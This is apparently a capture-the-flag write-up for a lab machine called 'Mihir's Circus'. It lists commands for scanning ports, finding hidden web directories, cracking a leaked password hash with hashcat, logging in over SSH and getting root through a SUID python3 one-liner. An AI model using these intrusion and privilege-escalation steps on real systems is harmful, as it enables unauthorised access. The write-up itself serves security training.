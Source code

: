 # Mihir's Circus Writeup


1. Use nmap to enumerate the machine `sudo nmap -sS -A <ip>`
2. Port 80 has a web server running, so navigate to it on a web browser
3. Check the source code of the page and find `<!-- Base64: SGludDogbSBpIGggaSBy -->`. Decode this to get `Hint: m i h i r`
4. Run gobuster with `gobuster dir -w <wordlist> -u <url>` and we find a hidden directory `/m`
5. Using the hint, navigate to `/m/i/h/i/r` to find an image and a `secret.html`
6. Navigate to `secret.html` and view the source code to find a hash that can be cracked with hashcat
7. Copy the hash `$6$67TT6KPw$M/83lanEiFhRu8NnOHk9h08lm42RqG9ZsRri.b2TBVWK6jSNN25S4PmRYhSphq7vktSAIkLyeALaJzAhj0iM4/` into a file `hash` and run hashcat with `hashcat -a 0 -m 1800 hash <path to rockyou wordlist>` to find `joker`
8. Ssh into the machine with `ssh noob@<ip address>` and use `joker` to authenticate
9. Find files with SUID bit set with `find / -perm /4000 2> /dev/null`
10. `python3` is the program that can be exploited to get root with `python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
